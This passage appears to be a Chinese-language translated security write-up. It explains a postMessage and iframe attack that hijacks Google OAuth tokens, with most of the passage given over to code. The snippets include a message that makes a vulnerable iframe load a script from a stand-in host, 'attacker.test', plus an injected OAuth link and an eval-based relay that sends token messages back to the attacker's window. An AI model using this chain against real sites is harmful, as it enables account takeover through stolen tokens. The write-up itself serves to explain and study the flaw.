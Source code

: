 内容是这样的(为了更好地解释攻击，这里进行了简化):

```

<script>
window.addEventListener('message', function (e) {
  if (e.source !== window.parent) {
    // not a valid origin to send messages
    return;
  }
  if (e.data.type === 'loadJs') {
    loadScript(e.data.jsUrl);
  } else if (e.data.type === 'initConfig') {
    loadConfig(e.data.config);
  }
});
</script>
```

在这种情况下，我可以做一个类似的方法，就像第一个例子:

创建一个恶意页面，嵌入了一个沙盒的iframe，附加一个onload，在iframe加载时触发脚本。


```
<div id="leak"><iframe
id="i" name="i"
src="https://challenge-iframe.example.com/"
onload="run()"
style="border:0;width:500px;height:500px"></iframe></div>

```


因为恶意页面是iframe的父节点，所以它(恶意页面)可以通过postMessage向iframe发送消息来加载我们的脚本:  （我的理解:上面的那个页面为恶意页面，里面有iframe标签）



```
<script>
function run() {
  i.postMessage({type:'loadJs',jsUrl:'https://attacker.test/inject.js'}, '*')
}
</script>
```


在我的脚本加载到沙盒中，我用受害者的链接替换了内容:


```
document.body.innerHTML = '<a href=" " onclick="
b=window.open("https://accounts.google.com/o/oauth2/auth/oauthchooseaccount?...");">
Click here to hijack token</a >';
```
周期性启动一个脚本，以检查链接是否打开，以及我想要到达的iframe是否存在，并在iframe和主窗口中运行javascript。然后我附加了一个postmessage-listener（onmessage），将消息传递回恶意窗口中的iframe:

```

x = setInterval(function() {
  if(b && b.frames[1]) {
    b.frames[1].eval(
      'onmessage=function(e) { top.opener.postMessage(e.data, "*") };' +
      'top.postMessage({type:'initConfig'},"*")'
    )
    clearInterval(x)
  }
}, 500);

```
